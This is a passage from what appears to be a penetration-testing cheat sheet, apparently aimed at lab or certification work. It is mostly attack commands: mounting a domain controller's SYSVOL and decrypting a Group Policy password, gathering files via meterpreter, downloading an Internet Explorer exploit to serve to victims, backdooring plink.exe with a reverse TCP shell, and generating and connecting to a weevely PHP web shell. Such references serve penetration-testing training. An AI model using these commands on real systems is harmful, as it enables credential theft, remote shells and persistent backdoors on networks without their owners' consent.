         `net use z:\\dc01\SYSVOL`

    *   Find the GPP file: Groups.xml

        `dir /s Groups.xml`

    *   Review the contents for passwords

        `type Groups.xml`

    *   Decrypt using GPP Decrypt

        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`

*   Find and display the proof.txt or flag.txt - get the loot!

    `#meterpreter > run post/windows/gather/win_privs` `cd\ & dir /b /s proof.txt` `type c:\pathto\proof.txt`

# [](#client-web-and-password-attacks)Client, Web and Password Attacks

*   ## [](#client-attacks)Client Attacks

    *   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html [http://www.exploit-db.com/download/24017](http://web.archive.org/web/20171113221652/http://www.exploit-db.com/download/24017)  
        service apache2 start

    *   JAVA Signed Jar client side attack  
        echo '' > /var/www/html/java.html  
        User must hit run on the popup that occurs.

    *   Linux Client Shells  
        [_http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/_](http://web.archive.org/web/20171113221652/http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    *   Setting up the Client Side Exploit

    *   Swapping Out the Shellcode

    *   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip -P 4444 -s reverse_shell_tcp

*   ## [](#web-attacks)Web Attacks

    *   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    *   Web Shells  
        [_http://tools.kali.org/maintaining-access/webshells_](http://web.archive.org/web/20171113221652/http://tools.kali.org/maintaining-access/webshells)  
        `ls -l /usr/share/webshells/`

    *   Generate a PHP backdoor (generate) protected with the given password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    *   Java Signed Applet Attack
